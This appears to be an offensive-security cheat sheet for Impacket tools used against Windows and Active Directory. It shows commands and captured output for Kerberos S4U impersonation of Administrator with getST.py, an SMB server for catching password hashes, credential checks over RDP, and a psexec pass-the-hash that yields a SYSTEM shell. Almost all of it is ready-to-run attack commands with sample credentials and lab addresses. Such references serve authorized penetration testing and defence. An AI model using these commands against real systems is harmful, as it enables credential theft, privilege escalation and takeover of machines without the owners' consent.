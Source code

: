 ### getST.py - Given a password, hash or aesKey, it will request a Service Ticket and save it as ccache

[Using tickets](https://swarm.ptsecurity.com/kerberoasting-without-spns/).

To use tickets install the `klist` tool with `sudo apt install krb5-user`

```plain
$ getST.py -impersonate Administrator -spn 'host/SRV01.offsec.NL' offsec.NL/janedo:'Welkom1234'
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

### SMBServer.py - Create a SMB server where a user can connect to

#### SMB server share without password

```plain
sudo smbserver.py -ip <ip-to-bind> <share-name> <local-folder-to-share>
```

#### SMB server share with password

```plain
sudo smbserver.py -username <username> -password <password> -ip <ip-to-bind> <share-name> <local-folder-to-share>
```

#### SMB server during assessment to catch hashes

```plain
sudo smbserver.py -smb2support share $PWD
```

### RDP_check.py - Check if RDP access is granted

```plain
$ rdp_check.py offsec/johndo:Welkom1234@10.10.10.10
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Access Granted
```

### psexec.py

```plain
$ psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83 Administrator@10.10.10.16
Impacket v0.9.22.dev1+20200914.162022.81d44893 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.16.....
[*] Found writable share ADMIN$
[*] Uploading file KbEylSCh.exe
[*] Opening SVCManager on 10.10.10.16.....
[*] Creating service CdaA on 10.10.10.16.....
[*] Starting service CdaA.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```